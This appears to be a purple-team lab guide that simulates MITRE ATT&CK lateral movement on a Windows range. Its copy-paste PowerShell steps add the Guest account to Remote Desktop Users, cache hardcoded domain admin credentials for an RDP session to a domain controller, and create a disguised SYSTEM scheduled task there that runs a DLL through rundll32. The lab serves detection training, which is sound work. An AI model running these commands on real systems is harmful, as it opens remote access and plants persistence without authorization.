 ```yaml
---
Title: ATT&CK - Lateral Movement Phase
Description: Simulate lateral movement techniques used by attackers within a network
Author: Chris Gerritz, Datto
Created: 04/17/2025
Achievements:
Duration: 15
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
External:
- attack.mitre.org
- allitshop.infocyte.com
---
```


## Description

The purpose of this lab is to simulate lateral movement techniques used by attackers to pivot between systems within a network. You will use PowerShell commands to simulate the creation of RDP connections and remote scheduled tasks on a target system. This lab emphasizes understanding how attackers move laterally and how these activities can be monitored or mitigated.

---

## Objectives
1. Understand the Lateral Movement phase of an attack.
2. Demonstrate techniques to establish remote connections and execute tasks on remote systems.
3. Evaluate the outputs and implications of lateral movement activities.

---

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows                     |
| **Applications** | PowerShell                  |
| **Needed Files** | None                        |

---

## Instructions

### 1. Add Guest to Remote Desktop Users Group
> *This step simulates an attacker adding a Guest user to the Remote Desktop Users group to enable remote access.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   Write-Host -ForegroundColor Cyan "Initiating Lateral Movement - Adding Guest to Remote Desktop Users Group"
   net localgroup "Remote Desktop Users" Guest /add
   Write-Host -ForegroundColor Green "Guest successfully added to Remote Desktop Users group."
   ```

---

### 2. Establish Remote RDP Connection
> *This step simulates an attacker using stolen credentials to establish an RDP session with a target machine.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:

   ```PowerShell
   $cmd = @'
   cmdkey /generic:TERMSRV/CORP-DC01 /user:corp.local\adminuser /pass:P@ssw0rd123
   mstsc /v:CORP-DC01
   echo "RDP connection initiating......"
   '@
   
   $cmd += "`nStart-Sleep -Milliseconds $n"
   powershell.exe -NoProfile $cmd

   ```

---

### 3. Create a Remote Scheduled Task
> *Simulates an attacker creating a scheduled task on a remote machine to execute malicious code.*

- MITRE ATT&CK Technique: [T1053.005 - Scheduled Task: Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/005)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   Write-Host "Simulating Scheduled Task Creation on remote machine CORP-DC01..."

   & Powershell -NoProfile -NoLogo -ExecutionPolicy Bypass -command {
       cmd.exe  /c SCHTASKS  /s CORP-DC01 /RU "SYSTEM" /create /tn "WindowsUpdate0" /tr "rundll32 C:\ProgramData\good.dll,good" /sc ONCE /sd 01/01/1910 /st 00:00
   }
   ```



---
